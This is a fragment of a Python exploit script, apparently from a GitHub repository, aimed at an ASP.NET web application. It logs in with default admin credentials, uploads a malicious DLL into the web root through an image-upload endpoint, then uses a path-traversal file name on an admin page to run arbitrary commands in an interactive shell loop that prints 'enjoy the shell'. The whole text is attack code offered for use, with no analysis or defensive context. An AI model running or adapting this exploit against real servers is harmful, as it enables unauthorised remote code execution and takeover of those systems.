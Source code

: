 ```python!

    view_state = response.text.split('id="__VIEWSTATE" value="')[1].split('"')[0]
    event_validation = response.text.split('id="__EVENTVALIDATION" value="')[1].split('"')[0]
    data = {
        '__VIEWSTATE': view_state,
        '__EVENTVALIDATION': event_validation,
        'folderName':'C:\inetpub\wwwroot\Test', #
        'btnConvert': 'Upload'
    }

    test_file = open(filename, "rb")
    upload_data = {'fileUpload': open(filename,'rb')}
    r = sess.post(url + "/Admin/UploadImage", data=data, files = {"fileUpload": test_file})
    print("[-] Uploading DLL...")

def trigger(cmd):
    data = {
        "fileName":"../Test/zExploit",
        "cmd":cmd
    }
    r = sess.post(url + '/Admin/DynamicPage', data=data)
    print(r.text)

Login('admin','admin')
uploadDLL("zExploit.zip")

print("[-] Done, enjoy the shell")
while True:
    cmd = input("$ ")
    trigger(cmd)
```

